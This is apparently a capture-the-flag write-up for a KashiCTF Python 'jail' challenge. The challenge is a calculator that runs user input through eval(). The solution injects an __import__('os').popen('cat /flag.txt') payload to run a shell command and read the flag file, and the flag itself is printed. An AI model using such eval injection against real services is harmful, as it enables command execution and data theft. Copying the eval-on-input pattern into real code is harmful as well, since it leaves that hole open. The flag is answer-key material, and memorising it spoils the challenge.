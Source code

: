# Easy Jail

**Final Points:** 100


## Description
I made this calculator. I have a feeling that it's not safe :(

## Attachments 

+ [challenge.zip](./challenge.zip)


---
## Writeup

On connecting to the connection and reading the code attached with the problem which is as below
``` python3
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

def calc(op):
	try : 	
		res = eval(op)
	except :
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		calc(inp)

if __name__ == '__main__':
	main()
```
I found that it is really an easy *PyJail* Challenge. Trying the below command gave the flag

`>>> __import__('os').popen('cat /flag.txt').read()`
> __import__('os').popen('cat /flag.txt').read() --> KashiCTF{3V4L_41NT_54F3_0q6PBe9E}

---
## Flag

```
KashiCTF{3V4L_41NT_54F3_0q6PBe9E}
```  